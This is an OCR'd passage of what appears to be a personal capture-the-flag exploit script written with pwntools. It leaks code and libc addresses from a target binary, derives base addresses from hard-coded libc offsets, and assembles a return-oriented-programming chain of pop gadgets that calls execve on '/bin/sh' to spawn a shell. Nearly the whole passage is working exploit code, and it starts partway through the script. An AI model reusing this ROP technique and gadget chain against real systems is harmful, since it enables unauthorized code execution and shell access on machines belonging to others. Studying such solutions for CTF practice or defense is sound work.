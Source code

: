 ```
CODE_ADDR = u64(code_addr_string)

# The return address also happens to be a libc address, super convenient.
libc_addr_string = p.recv(8)
print("libc_addr = " + hex(u64(libc_addr_string)) + "\n")
LIBC_ADDR = u64(libc_addr_string)

if local:
	# redacted
else:
	LIBC_OFFSET = 0x21b97
	BINSH_OFFSET = 0x1b3e9a
	SYSTEM_OFFSET = 0x4f440
	POP_RDI_OFFSET = 0x2155f
	RET_OFFSET = 0x8aa
	EXECVE_OFFSET = 0xe4e30
	POP_RDX_RSI_OFFSET = 0x1306d9
	ONE_GADGET_OFFSET = 0x10a38c
	ONE_GADGET_OFFSET_2 = 0x4f2c5
	POP_RCX_OFFSET = 0x3eb0b
	POP_RDX_OFFSET = 0x1b96
CODE_OFFSET = 0xdd0

CODE_BASE = CODE_ADDR - CODE_OFFSET
LIBC_BASE = LIBC_ADDR - LIBC_OFFSET

print("code base is " + hex(CODE_BASE) + "\n")
print("libc base is " + hex(LIBC_BASE) + "\n")

# Various gadgets that I tried
POP_RDI = LIBC_BASE + POP_RDI_OFFSET
RET_ADDR = LIBC_BASE + RET_OFFSET
BINSH_ADDR = LIBC_BASE + BINSH_OFFSET
SYSTEM_ADDR = LIBC_BASE + SYSTEM_OFFSET
POP_RDX_RSI_ADDR = LIBC_BASE + POP_RDX_RSI_OFFSET
EXECVE_ADDR = LIBC_BASE + EXECVE_OFFSET
ONE_GADGET_ADDR = LIBC_BASE + ONE_GADGET_OFFSET
POP_RCX_ADDR = LIBC_BASE + POP_RCX_OFFSET
ONE_GADGET_ADDR_2 = LIBC_BASE + ONE_GADGET_OFFSET_2
POP_RDX_ADDR = LIBC_BASE + POP_RDX_OFFSET
# Now I want a function that writes a specific byte to a specific place.
# First I want to decipher the random four bytes that get written somewhere.

set_key("A"*0x108)
prepare_to_read_past_message("B"*256)


# Figure out the offset to the lowest byte of the random number at the top of the string.
# Need to read in a message of size 0x100. Then it depends on the key length.
# I write the random number to the message buffer + the message length + the key length + 0x4.
# I want to start writing at message buffer + 0x100 + 0x4 + 0x14.

print("/bin/sh address: " + hex(BINSH_ADDR) + ".\n")
print("system address: " + hex(SYSTEM_ADDR) + ".\n")

payload = p64(POP_RDI)
payload += p64(BINSH_ADDR)
payload += p64(POP_RDX_RSI_ADDR)
payload += p64(0)
payload += p64(0)
#payload += p64(RET_ADDR)
#payload += p64(SYSTEM_ADDR)
payload += p64(EXECVE_ADDR)
```